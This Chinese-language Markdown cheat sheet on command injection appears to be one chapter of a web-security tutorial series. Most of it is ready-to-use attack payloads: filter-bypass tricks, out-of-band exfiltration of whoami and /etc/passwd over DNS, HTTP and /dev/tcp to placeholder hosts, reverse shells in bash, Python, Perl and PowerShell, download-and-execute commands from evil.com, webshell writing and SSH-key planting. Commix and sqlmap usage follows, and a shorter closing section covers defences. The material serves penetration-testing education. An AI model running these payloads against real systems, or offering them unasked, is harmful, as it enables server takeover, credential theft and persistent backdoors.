

# 💻 命令注入（Command Injection）全技巧

> **OWASP Top 10 2021 — A03: Injection（注入）**
> **命令注入**是指攻击者通过构造恶意输入，在目标服务器上执行任意系统命令的攻击方式。
> 关联：[SQL注入全技巧](09-sql-injection.md) | [XSS全技巧](12-xss.md) | [模板注入SSTI全技巧](17-ssti.md) | [XXE注入全技巧](16-xxe.md)

---

## 📖 一、命令注入基础原理

### 1.1 什么是命令注入？

应用程序调用系统命令时，**未对用户输入做充分过滤**，导致攻击者可以拼接、注入额外的系统命令。

**漏洞示例（PHP）：**

```php
<?php
// ❌ 危险代码：直接拼接用户输入到系统命令
$ip = $_GET['ip'];
$result = shell_exec("ping -c 4 " . $ip);
echo $result;
?>
```

**正常请求：** `?ip=8.8.8.8` → 执行 `ping -c 4 8.8.8.8`
**恶意请求：** `?ip=8.8.8.8;id` → 执行 `ping -c 4 8.8.8.8;id`

> `;id` 作为新命令被执行，服务器返回 `id` 命令的结果！

### 1.2 常见命令执行函数

| 语言 | 危险函数 |
|:---|:---|
| **PHP** | `system()`, `exec()`, `shell_exec()`, `popen()`, `passthru()`, `\` \``（反引号）|
| **Python** | `os.system()`, `os.popen()`, `subprocess.Popen(shell=True)`, `eval()`, `exec()` |
| **Java** | `Runtime.getRuntime().exec()`, `ProcessBuilder()` |
| **Node.js** | `child_process.exec()`, `child_process.spawn(shell:true)`, `child_process.execSync()` |
| **Go** | `os/exec.Command()`, `exec.Command("sh", "-c", cmd)` |
| **Ruby** | `system()`, `exec()`, `\` \``（反引号）, `IO.popen()` |
| **Perl** | `system()`, `exec()`, `\` \``（反引号）, `open()` |

### 1.3 命令注入的危害

| 危害 | 说明 |
|:---|:---|
| 🎯 **服务器沦陷** | 执行任意命令，获取 Shell |
| 🔓 **数据泄露** | 读取数据库文件、配置文件、密钥 |
| ✏️ **数据篡改** | 修改/删除服务器文件 |
| 🕸️ **内网横向移动** | 以服务器为跳板攻击内网 |
| 🦠 **植入木马** | 下载并执行恶意软件/勒索病毒 |
| 💥 **拒绝服务** | 执行消耗资源的命令导致系统崩溃 |

---

## 🏷️ 二、命令注入分类

### 2.1 有回显命令注入

命令执行结果直接显示在页面响应中，最容易利用。

```bash
# 基本检测
?ip=127.0.0.1;id
?ip=127.0.0.1|id
?ip=127.0.0.1&&id
?ip=127.0.0.1||id

# 如果服务器返回了 uid=33(www-data) 等输出，确认存在命令注入
```

### 2.2 无回显（盲）命令注入

命令执行但结果不显示在页面上，需要通过**延时、DNSLog、HTTP请求外带**来确认。

```bash
# 延时检测
?ip=127.0.0.1;sleep 5
?ip=127.0.0.1|ping -c 5 127.0.0.1

# DNSLog 外带数据
?ip=127.0.0.1;curl http://`whoami`.xxxx.dnslog.cn
?ip=127.0.0.1;nslookup `whoami`.xxxx.dnslog.cn

# HTTP 外带
?ip=127.0.0.1;wget --post-data="`whoami`" http://your-server.com/collect
```

### 2.3 错误型命令注入

命令执行失败时，错误信息泄露了执行结果。

```bash
# 通过错误获取信息
?ip=127.0.0.1;cat /etc/shadow 2>&1
?ip=127.0.0.1;$(cat /nonexistent) 2>&1
```

---

## 🔧 三、命令连接符详解

### 3.1 Windows 命令连接符

| 符号 | 作用 | 示例 |
|:---|:---|:---|
| `&` | 顺序执行，不管前一个是否成功 | `ipconfig & whoami` |
| `&&` | 前一个成功后才执行后一个 | `ipconfig && whoami` |
| `\|` | 管道符，前一个输出作为后一个输入 | `dir \| find "txt"` |
| `\|\|` | 前一个失败才执行后一个 | `ipconfig \|\| whoami` |
| `;` | 在 CMD 中也可使用 | `ipconfig;whoami` |
| `` ` `` | 命令替换（旧式） | `` for /f %i in ('whoami') do echo %i `` |
| `^` | 转义符 | `ping 127.0.0.1^&whoami` |

### 3.2 Linux/Unix 命令连接符

| 符号 | 作用 | 示例 |
|:---|:---|:---|
| `;` | 顺序执行，不管前一个是否成功 | `id;whoami` |
| `&&` | 前一个成功后才执行后一个 | `ping -c 1 8.8.8.8 && whoami` |
| `\|` | 管道符 | `cat /etc/passwd \| grep root` |
| `\|\|` | 前一个失败才执行后一个 | `ping -c 1 x.x.x.x \|\| whoami` |
| `&` | 后台执行 | `sleep 10 &` |
| `` ` `` | 命令替换 | `` echo `whoami` `` |
| `$()` | 命令替换（推荐） | `echo $(whoami)` |
| `$()` | 可嵌套 | `echo $(hostname $(whoami))` |
| `>` | 重定向输出 | `id > /tmp/out.txt` |
| `<` | 重定向输入 | `cat < /etc/passwd` |
| `>>` | 追加输出 | `id >> /tmp/out.txt` |

### 3.3 新行注入

```bash
# URL 编码的换行符可能导致命令执行
?ip=127.0.0.1%0Awhoami
?ip=127.0.0.1%0D%0Aid

# %0A = 换行符 \n
# %0D = 回车符 \r
```

---

## 🚀 四、进阶利用技巧

### 4.1 空格过滤绕过

```bash
# 当后端过滤了空格时：

# 使用 Tab（%09）
?ip=127.0.0.1%09-id

# 使用 ${IFS}（内部字段分隔符）
?ip=127.0.0.1;cat${IFS}/etc/passwd

# 使用 {,} 花括号扩展
?ip=127.0.0.1;{cat,/etc/passwd}

# 使用变量拼接
?ip=127.0.0.1;a=cat;$a${IFS}/etc/passwd

# 使用重定向符
?ip=127.0.0.1;cat</etc/passwd
?ip=127.0.0.1;wc</etc/passwd
```

### 4.2 关键字过滤绕过

```bash
# 当过滤了 cat、whoami 等关键字时：

# 1. 反斜线转义
c\a\t /etc/passwd
who\ami

# 2. 变量拼接
a=ca;b=t;$a$b /etc/passwd

# 3. 使用通配符
/???/c?t /etc/passwd    # /bin/cat
/???/???/???/c?t /???/p?????   # 猜路径

# 4. Base64 编码 + 管道
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash

# 5. 使用其他命令替代
# cat → head/tail/more/less/tac/awk/sed/nl
head -100 /etc/passwd
awk '1' /etc/passwd
sed -n 'p' /etc/passwd
nl /etc/passwd
tac /etc/passwd         # 反序输出

# 6. 十六进制编码
echo "636174202f6574632f706173737764" | xxd -r -p | bash

# 7. 命令替换 - 使用 $()
$(printf '\x63\x61\x74') /etc/passwd
```

### 4.3 斜杠/路径过滤绕过

```bash
# 当过滤了 / 时：

# 使用 ${HOME} 取第一个字符 /
?ip=127.0.0.1;cat${HOME:0:1}etc${HOME:0:1}passwd

# 使用环境变量截取
?ip=127.0.0.1;echo${PATH:0:1}  # 输出 /

# 使用 $(printf '\x2f')
?ip=127.0.0.1;cat$(printf '\x2f')etc$(printf '\x2f')passwd
```

### 4.4 绕过字符集限制

```bash
# 只能输入数字时 - 使用 $((算数扩展))
?ip=127.0.0.1;echo $((1+1))  # 输出 2

# 使用 $RANDOM
?ip=127.0.0.1;echo $RANDOM

# 使用 /dev/urandom
?ip=127.0.0.1;cat /dev/urandom | tr -dc a-z | head -c 10

# 使用 printf 生成任意字符
?ip=127.0.0.1;$(printf "\143\141\164") /etc/passwd
```

### 4.5 无回显时外带数据

```bash
# DNS 外带（Linux）
?ip=127.0.0.1;nslookup `whoami`.xxx.dnslog.cn
?ip=127.0.0.1;dig `whoami`.xxx.dnslog.cn

# DNS 外带（Windows）
?ip=127.0.0.1;nslookup %username%.xxx.dnslog.cn

# HTTP 外带
?ip=127.0.0.1;curl http://xxx.dnslog.cn/$(whoami)
?ip=127.0.0.1;wget --header="Host: $(whoami)" http://xxx.dnslog.cn

# TCP 外带
?ip=127.0.0.1;cat /etc/passwd > /dev/tcp/your-ip/4444
?ip=127.0.0.1;bash -c 'exec 5<>/dev/tcp/your-ip/4444;cat /etc/passwd >&5'

# ICMP 外带
?ip=127.0.0.1;ping -c 1 -p $(echo whoami | xxd -p) your-ip
```

### 4.6 获取完整 Shell

```bash
# Linux 反弹 Shell
?ip=127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/your-ip/4444 <&1'
?ip=127.0.0.1;python -c 'import socket,subprocess;s=socket.socket();s.connect(("your-ip",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
?ip=127.0.0.1;perl -e 'use Socket;$i="your-ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows 反弹 Shell
?ip=127.0.0.1;powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://your-ip/shell.ps1')"
?ip=127.0.0.1;certutil -urlcache -f http://your-ip/shell.exe C:\Temp\shell.exe && C:\Temp\shell.exe
```

### 4.7 盲注时间延迟

```bash
# 条件延时 - 类似 SQL 盲注
?ip=127.0.0.1;if [ $(whoami | cut -c1) == 'r' ]; then sleep 5; fi

# 逐字符猜解
?ip=127.0.0.1;if [ $(cat /etc/passwd | grep root | cut -c1) == 'r' ]; then sleep 5; fi

# 批量猜解
for c in r o o t; do
  curl "http://target.com/ping?ip=127.0.0.1;if[\$(whoami|cut-c1)=='$c'];then sleep 3;fi" -m 2
done
```

### 4.8 写 Webshell

```bash
# 写入 PHP Webshell
?ip=127.0.0.1;echo '<?php system($_GET["cmd"]);?>' > /var/www/html/shell.php

# 写入 JSP Webshell
?ip=127.0.0.1;echo '<%@page import="java.io.*"%><% Process p=Runtime.getRuntime().exec(request.getParameter("cmd")); %>' > /var/www/html/shell.jsp

# 使用 certutil/wget 下载 Webshell
?ip=127.0.0.1;certutil -urlcache -f http://your-ip/shell.php /var/www/html/shell.php
?ip=127.0.0.1;wget http://your-ip/shell.php -O /var/www/html/shell.php

# 写 SSH 密钥
?ip=127.0.0.1;mkdir -p /root/.ssh && echo "ssh-rsa AAA..." >> /root/.ssh/authorized_keys
```

### 4.9 各种语言的命令注入 Payload

```php
# PHP
?ip=127.0.0.1;php -r 'system("id");'
?ip=127.0.0.1;php -r '$s=file_get_contents("http://evil.com/shell.php");eval($s);'
```

```python
# Python 命令注入
?ip=127.0.0.1;python -c "import os;os.system('id')"
?ip=127.0.0.1;python3 -c "import urllib.request;exec(urllib.request.urlopen('http://evil.com/payload.py').read())"
```

```javascript
# Node.js
?ip=127.0.0.1;node -e "require('child_process').exec('id',(e,o)=>console.log(o))"
?ip=127.0.0.1;node -e "process.mainModule.require('child_process').execSync('id')"
```

```java
# Java Runtime.exec() 特殊说明
# Runtime.exec() 不像 shell 一样支持管道/重定向
# 例如：Runtime.getRuntime().exec("whoami | grep admin") 会失败
# 需要显式调用 shell
Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", "whoami | grep admin"});
```

### 4.10 Windows 特有技巧

```powershell
# Powershell 命令注入
?ip=127.0.0.1;powershell Get-Process
?ip=127.0.0.1;powershell Invoke-Expression "whoami"

# 编码执行（绕过限制）
?ip=127.0.0.1;powershell -Enc SQBkACAALQBuAGEAbQBlAA==

# WMI 执行
?ip=127.0.0.1;wmic process call create "calc.exe"
?ip=127.0.0.1;wmic /node:localhost /user:admin /password:pass process call create "cmd.exe /c whoami"

# 使用 for 循环
?ip=127.0.0.1;for /f "tokens=*" %i in ('whoami') do echo %i
```

---

## 🛠️ 五、自动化工具

### 5.1 Commix（Command Injection Exploiter）

```bash
# Commix 是专门用于命令注入检测和利用的工具

# 基础检测
commix -u "http://target.com/page.php?ip=127.0.0.1"

# POST 请求
commix -u "http://target.com/page.php" --data="ip=127.0.0.1"

# Cookie 参数检测
commix -u "http://target.com/page.php" --cookie="ip=127.0.0.1"

# 获取 Shell
commix -u "http://target.com/page.php?ip=127.0.0.1" --os-shell

# 使用 Tamper 脚本绕过
commix -u "http://target.com/page.php?ip=127.0.0.1" --tamper="space2ifs"
```

### 5.2 SQLMap 的命令注入模块

```bash
# SQLMap 也支持 OS Shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# 执行命令
sqlmap -u "http://target.com/page.php?id=1" --os-cmd="whoami"
```

---

## 🛡️ 六、防御方案

### 6.1 最佳实践：避免直接调用系统命令

```python
# Python - 使用库函数替代系统命令

# ❌ 危险：使用系统 ping
import os
os.system(f"ping -c 4 {ip}")  # 命令注入风险

# ✅ 安全：使用 Python 库
import subprocess
import shlex

def ping_host(ip):
    # 参数列表方式调用（推荐）
    result = subprocess.run(
        ["ping", "-c", "4", ip],
        capture_output=True,
        text=True,
        timeout=30
    )
    return result.stdout
```

```java
// Java - 使用参数列表方式
// ❌ 危险
Runtime.getRuntime().exec("ping -c 4 " + ip);

// ✅ 安全 - 使用参数数组
Runtime.getRuntime().exec(new String[]{
    "/bin/ping", "-c", "4", ip
});
```

```javascript
// Node.js - 使用 spawn 替代 exec
// ❌ 危险
const { exec } = require('child_process');
exec(`ping -c 4 ${ip}`);  // 命令注入风险

// ✅ 安全 - 使用 spawn 参数数组
const { spawn } = require('child_process');
const ping = spawn('ping', ['-c', '4', ip]);
```

### 6.2 输入验证与白名单

```python
import re
import ipaddress

def validate_ip(ip_str):
    """IP 地址白名单验证"""
    try:
        # 只允许合法的 IP 地址
        ipaddress.ip_address(ip_str)
        return True
    except ValueError:
        return False

# 使用
if validate_ip(user_input):
    result = subprocess.run(["ping", "-c", "4", user_input])
else:
    raise ValueError("Invalid IP address")
```

### 6.3 输入转义

```python
import shlex

# 使用 shlex.quote() 转义 shell 参数
safe_ip = shlex.quote(user_input)
os.system(f"ping -c 4 {safe_ip}")  # 转义后相对安全

# shlex.quote 原理：用单引号包裹并转义内部的单引号
# 输入：127.0.0.1;whoami
# 输出：'127.0.0.1;whoami'（作为字符串传递给命令）

# ⚠️ 注意：quote 不是万能的，某些场景下仍可绕过
```

### 6.4 PHP 安全配置

```ini
; php.ini 安全配置
disable_functions = system,exec,shell_exec,popen,passthru,proc_open,pcntl_exec
; 禁用危险函数，即使代码中存在也执行不了

; 或者禁用整个命令执行
; 如果不需要系统命令功能，直接通过 disable_functions 禁用所有命令执行函数
```

### 6.5 防御检查清单

| 措施 | 说明 |
|:---|:---|
| ✅ **避免系统命令** | 使用库函数替代系统命令调用 |
| ✅ **参数列表** | 使用 `exec(["cmd", "arg1", "arg2"])` 而非字符串拼接 |
| ✅ **白名单验证** | 只允许预期的字符/格式 |
| ✅ **最小权限** | Web 服务不要以 root 运行 |
| ✅ **沙箱/容器** | 在隔离环境中执行系统命令 |
| ✅ **禁用危险函数** | `disable_functions` 禁用 `exec`、`system` 等 |
| ✅ **输入长度限制** | 限制输入长度减少攻击面 |
| ✅ **WAF 部署** | 检测命令连接符 `;` `|` `$()` 等 |

---

## 🎯 七、检测流程速查

### 7.1 手动测试步骤



### 7.2 测试 Checklist

- [ ] 测试所有命令连接符：`;` `|` `||` `&&` `&` `` ` ``
- [ ] 测试命令替换：`$(command)` `` `command` ``
- [ ] 测试 URL 编码变种：`%0A` `%0D%0A`
- [ ] 测试无回显延时：`sleep 5` `ping -c 5 127.0.0.1`
- [ ] 测试 DNSLog 外带：`curl http://xxx.dnslog.cn/$(whoami)`
- [ ] 测试反弹 Shell
- [ ] 测试空格绕过：`${IFS}` `%09` `{cmd,arg}`
- [ ] 测试关键字绕过：反斜线、变量拼接、Base64

### 7.3 常见注入点

| 场景 | 例子 |
|:---|:---|
| Ping 功能 | `?ip=127.0.0.1;whoami` |
| DNS 查询 | `?domain=example.com;whoami` |
| 文件下载 | `?file=test.txt;cat /etc/passwd` |
| 日志查看 | `?log=access.log;whoami` |
| 网络工具 | `?host=target;nslookup target;whoami` |
| 编码转换 | `?input=test;base64 -d <<< dGVzdA==` |
| 邮件发送 | `?email=user@a.com;cat /etc/passwd` |

### 7.4 推荐工具

| 工具 | 用途 |
|:---|:---|
| **Commix** | 专门命令注入检测和利用 |
| **SQLMap --os-shell** | 带命令注入的 SQL 注入利用 |
| **Burp Suite Intruder** | 手工测试与模糊测试 |
| **nuclei** | 模板化漏洞扫描（含命令注入模板） |
| **Interact.sh** | DNS/HTTP 外带接收平台 |

---

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [SQL注入全技巧](09-sql-injection.md) | 同属 A03 Injection 大类 |
| [XSS全技巧](12-xss.md) | 同属注入类漏洞 |
| [NoSQL注入全技巧](10-nosql-injection.md) | 数据库注入 |
| [模板注入SSTI全技巧](17-ssti.md) | 模板引擎注入 |
| [XXE注入全技巧](16-xxe.md) | XML 注入 |
| [反序列化注入全技巧](18-deserialization.md) | 反序列化 RCE（常配合命令注入） |

> **💡 核心原则**：永远避免直接拼接用户输入到系统命令中！优先使用语言内置的库函数，如果必须执行系统命令，使用参数列表方式调用并做好白名单验证！
